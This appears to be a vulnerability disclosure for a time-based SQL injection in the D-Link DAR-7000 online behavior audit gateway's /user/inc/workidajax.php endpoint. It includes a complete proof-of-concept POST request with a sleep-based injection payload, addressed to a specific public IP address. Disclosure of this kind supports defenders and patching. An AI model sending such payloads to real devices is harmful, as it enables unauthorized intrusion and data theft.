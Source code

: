 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/user/inc/workidajax.php

POC：
```
POST /user/inc/workidajax.php HTTP/1.1
Host: 58.18.133.60:8443
Cookie: PHPSESSID=3e814ce27f6d6cdc6a2e910d27132338
Accept: text/html, application/xhtml+xml, image/jxr, */*
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

src=exempttraffic&type=del&id=(select*from(select(sleep(3)))a)&value= ![image](https://github.com/flyyue2001/cve/assets/88701694/8022f586-7ede-49de-a50f-400f9700c601)

```

<img width="813" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/f651a204-2b37-4d0f-9b19-0bc5938686fd">
